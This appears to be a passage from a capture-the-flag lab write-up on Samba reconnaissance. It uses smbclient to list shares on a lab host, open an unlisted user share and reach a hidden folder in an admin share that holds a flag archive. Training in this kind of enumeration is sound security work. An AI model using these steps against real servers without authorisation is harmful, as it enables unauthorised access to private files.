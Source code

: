 Jane is not listed above, Let's try another method:

```sh
root@attackdefense:~# smbclient -L 192.9.143.3 -U jane
Enter WORKGROUP\jane's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        shawn           Disk      
        nancy           Disk      
        admin           Disk      
        IPC$            IPC       IPC Service (brute.samba.recon.lab)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        RECONLABS            
```

Jane is still not there, Let's see if it is browsable:

```sh
root@attackdefense:~# smbclient //192.9.143.3/jane -U jane
Enter WORKGROUP\jane's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  logs                                D        0  Tue Nov 27 19:25:12 2018
  flag                                D        0  Tue Nov 27 19:25:12 2018
  admin                               D        0  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 195512960 blocks available
```

Great! we can see that it is browsable even if it is not listed in the shares.

Now let's try `admin` directory:

```sh
root@attackdefense:~# smbclient //192.9.143.3/admin -U admin
Enter WORKGROUP\admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Dec 28 07:29:43 2023
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  hidden                              D        0  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 195512856 blocks available
smb: \> cd hidden
smb: \hidden\> ls
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Thu Dec 28 07:29:43 2023
  flag.tar.gz                         N      151  Tue Nov 27 19:25:12 2018

                1981084628 blocks of size 1024. 195512856 blocks available
```
